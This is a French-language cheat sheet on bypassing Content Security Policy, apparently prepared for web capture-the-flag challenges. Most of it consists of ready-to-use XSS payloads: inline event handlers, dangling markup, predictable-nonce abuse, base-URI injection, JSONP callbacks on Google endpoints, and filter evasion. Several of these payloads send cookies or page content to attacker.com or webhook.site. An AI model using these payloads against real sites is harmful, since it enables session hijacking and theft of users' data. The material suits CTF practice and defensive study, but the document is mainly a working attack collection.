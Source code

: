 # CSP Bypass et Techniques d'Attaque

## <mark style="color:red;">CSP Bypass et Techniques d'Attaque</mark>

### <mark style="color:blue;">🎯 Méthodologie Générale</mark>

#### 1. Reconnaissance CSP

* **Analyser les headers HTTP** : `Content-Security-Policy` et `Content-Security-Policy-Report-Only`
* **Utiliser CSP Evaluator** : https://csp-evaluator.withgoogle.com/
* **Identifier les directives manquantes** : `base-uri`, `object-src`, `img-src`, etc.

#### 2. Points d'entrée à vérifier

* Paramètres GET/POST
* Headers HTTP injectables
* Cookies modifiables
* Fragment URL (`#`)

### <mark style="color:blue;">🚨 Directives CSP Dangereuses</mark>

| Directive             | Danger                   | Exploitation                         |
| --------------------- | ------------------------ | ------------------------------------ |
| `'unsafe-inline'`     | Scripts inline autorisés | `<img src=x onerror="alert(1)">`     |
| `'unsafe-eval'`       | eval() autorisé          | Injection via eval()                 |
| `'strict-dynamic'`    | Scripts dynamiques       | Contournement via scripts autorisés  |
| `*` (wildcard)        | Toutes sources           | Chargement depuis n'importe où       |
| Absence de `base-uri` | Injection `<base>`       | Redirection des ressources relatives |

### <mark style="color:blue;">🔧 Techniques de Bypass</mark>

#### 1. CSP Bypass - Inline Code

**Quand** : `script-src 'unsafe-inline'` présent

```html
<!-- Event handlers -->
<img src=x onerror="alert(1)">
<svg onload="alert(1)">

<!-- Exfiltration de données -->
<svg onload='window.location.href="//attacker.com?data=".concat(document.getElementsByTagName("p")[0].innerHTML)'>
```

**💡 Astuce** : Utiliser `//` au lieu de `http://` si filtré

#### 2. Dangling Markup

**Quand** : Pas de `img-src` ou `default-src` restrictif

```html
<!-- Méthode 1 : Meta refresh -->
<meta http-equiv="refresh" content='0;URL=https://webhook.site/xxx?exfil=

<!-- Méthode 2 : Image background -->
<body background='http://attacker.com/?

<!-- Méthode 3 : Image src (si autorisé) -->
<img src='http://attacker.com/?
```

**Important** : Ne pas fermer la balise pour capturer le contenu suivant

#### 3. CSP Nonce Bypass

**Identification** : Analyser comment le nonce est généré

```javascript
// Exemple de nonce faible basé sur input utilisateur
pseudo = "AAAAAAAAAA" -> nonce = base64(pseudo + date)
```

**Exploitation** :

```html
AAAAAAAAAA<script nonce="NONCE_PREVISIBLE">
// Contournement des filtres
location=atob("BASE64_URL")+window["doc"+"ument"]["cookie"]
</script>
```

#### 4. Base URI Injection

**Quand** : Absence de directive `base-uri`

```html
<!-- Contournement du filtre < > -->
<><base href="http://attacker.com/">

<!-- Le script relatif sera chargé depuis notre domaine -->
```

**Servir un fichier malveillant** :

```javascript
// /path/to/script.js sur attacker.com
document.location = "http://attacker.com?flag=" + document.cookie;
```

#### 5. JSONP Exploitation

**Quand** : Domaines externes autorisés (Google, APIs, etc.)

**Endpoints JSONP communs** :

```html
<!-- Google -->
<script src="https://accounts.google.com/o/oauth2/revoke?callback=PAYLOAD"></script>

<!-- Autres -->
<script src="https://maps.googleapis.com/maps/api/js?callback=PAYLOAD"></script>
```

**Exfiltration complète** :

```html
<script src="https://accounts.google.com/o/oauth2/revoke?callback=window.onload=()=>{document.location=`https://attacker.com/?c=${btoa(document.body.innerHTML)}`};"></script>
```

***

### <mark style="color:blue;">🛠️ Techniques de Contournement</mark>

#### Filtres Communs et Bypass

| Filter      | Bypass                                   |
| ----------- | ---------------------------------------- |
| `http://`   | `//` ou `https://`                       |
| `<>`        | Utiliser le premier `<>` pour contourner |
| `'` (quote) | Utiliser `"`                             |
| `.` (point) | `atob()` avec base64                     |
| `document`  | `window["doc"+"ument"]`                  |
| Espaces     | `%20` ou autres encodages                |

#### Encodages Utiles

```javascript
// Base64 encoding
btoa("string") // encode
atob("encoded") // decode

// URL encoding
encodeURIComponent("string")
```

***

### <mark style="color:blue;">🎲 Payloads Types par Contexte</mark>

#### Exfiltration de Flag

```html
<!-- Via paramètre -->
<svg onload='fetch("//attacker.com?flag="+document.body.innerHTML)'>

<!-- Via redirection -->
<svg onload='location.href="//attacker.com?flag="+btoa(document.cookie)'>

<!-- Recherche dans DOM -->
<svg onload='location="//attacker.com?flag="+document.getElementsByTagName("p")[0].innerHTML.split(" ")[INDEX]'>
```

#### Exfiltration de Cookies

```html
<svg onload='fetch("//attacker.com?cookie="+document.cookie)'>
```

#### Debugging DOM

```javascript
// Trouver l'élément contenant le flag
console.log(document.getElementsByTagName("p")[0].innerHTML)
console.log(document.body.innerHTML)
```

***

### <mark style="color:blue;">🔍 Checklist d'Attaque</mark>

#### Phase 1 : Reconnaissance

* \[ ] Analyser la CSP dans les headers
* \[ ] Identifier les directives manquantes
* \[ ] Tester l'injection de base (`<i>test</i>`)
* \[ ] Vérifier les filtres en place

#### Phase 2 : Exploitation

* \[ ] Choisir la technique selon la CSP
* \[ ] Adapter les payloads aux filtres
* \[ ] Configurer un endpoint de réception
* \[ ] Tester localement avant soumission

#### Phase 3 : Exfiltration

* \[ ] Identifier la localisation du flag/données
* \[ ] Adapter la payload d'extraction
* \[ ] Encoder si nécessaire (base64, URL)
* \[ ] Soumettre au bot et attendre

### 🌐 Outils et Ressources

#### Endpoints de Test

* **Webhook.site** : Réception de données
* **Burp Collaborator** : Interaction externe
* **Beeceptor** : Mock API endpoints

#### Références

* [CSP Evaluator](https://csp-evaluator.withgoogle.com/)
* [JSONP Endpoints](https://github.com/zigoo0/JSONBee)
* [HTTPLeaks Cheatsheet](https://github.com/cure53/HTTPLeaks)
* [HackTricks CSP](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass)

### ⚡ Points Clés à Retenir

1. **Toujours analyser la CSP en premier** - Les directives manquantes sont souvent la clé
2. **Tester les filtres méthodiquement** - Chaque caractère peut être contourné
3. **Utiliser les domaines whitelistés** - JSONP sur Google/APIs autorisées
4. **Attention au timing** - `window.onload` pour l'exfiltration complète
5. **Encoder les données** - Base64 pour éviter les problèmes d'URL
6. **Ne pas fermer les balises** - Pour le dangling markup

***

_💡 **Astuce finale** : Si une technique ne fonctionne pas, essayer les autres. Souvent plusieurs approches sont possibles sur le même challenge !_
